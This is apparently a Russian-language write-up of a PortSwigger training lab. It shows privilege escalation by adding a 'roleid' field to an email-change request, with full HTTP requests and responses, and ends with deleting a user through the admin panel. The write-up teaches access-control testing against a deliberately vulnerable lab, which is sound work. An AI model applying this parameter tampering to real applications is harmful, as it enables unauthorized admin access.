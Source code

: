 ```yaml
---
title: "User role can be modified in user profile"
date: 2025-07-17
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile"
classes: wide
---
```


В данной лабе есть ендпоинт `/admin`. Для получения доступа нужно установить `roleid` в 2. Для решения нужно удалить пользователя `carlos`. Даны креды `wiener`:`peter`.

```
https://0a3a00ad0400e296e61a760700300094.web-security-academy.net
```

## Solution

Зайду в аккаунт и попробую перейти на админ-панель.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_can_be_modified_in_user_profile/1.png){: height="200" .align-center}

В лк есть возможность сменить почту. Попробую это сделать:

```http
POST /my-account/change-email HTTP/2
Host: 0a3a00ad0400e296e61a760700300094.web-security-academy.net
Cookie: session=0HDsFaqSQFPL0OnVFYE9rMckpsRgtHBA
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3a00ad0400e296e61a760700300094.web-security-academy.net/my-account?id=wiener
Content-Type: text/plain;charset=UTF-8
Content-Length: 24
Origin: https://0a3a00ad0400e296e61a760700300094.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"email":"new@mail.com"}
```

Ответ:

```http
HTTP/2 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 116

{
  "username": "wiener",
  "email": "new@mail.com",
  "apikey": "i8MIpGMUiEIx9oc6TvuBS30nGyS2fcNV",
  "roleid": 1
}
```

Вижу поле `roleid`. Попробую отредачить тело запроса, чтобы изменить это значение на 2:

```http
POST /my-account/change-email HTTP/2
Host: 0a3a00ad0400e296e61a760700300094.web-security-academy.net
Cookie: session=0HDsFaqSQFPL0OnVFYE9rMckpsRgtHBA
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3a00ad0400e296e61a760700300094.web-security-academy.net/my-account?id=wiener
Content-Type: text/plain;charset=UTF-8
Content-Length: 38
Origin: https://0a3a00ad0400e296e61a760700300094.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"email":"new@mail.com",
"roleid":2 }
```

Ответ:

```http
HTTP/2 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 116

{
  "username": "wiener",
  "email": "new@mail.com",
  "apikey": "i8MIpGMUiEIx9oc6TvuBS30nGyS2fcNV",
  "roleid": 2
}
```

Попробую зайти в админ-панель:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_can_be_modified_in_user_profile/2.png){: height="200" .align-center}

Успех. Удалю пользователя:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_can_be_modified_in_user_profile/3.png){: height="200" .align-center}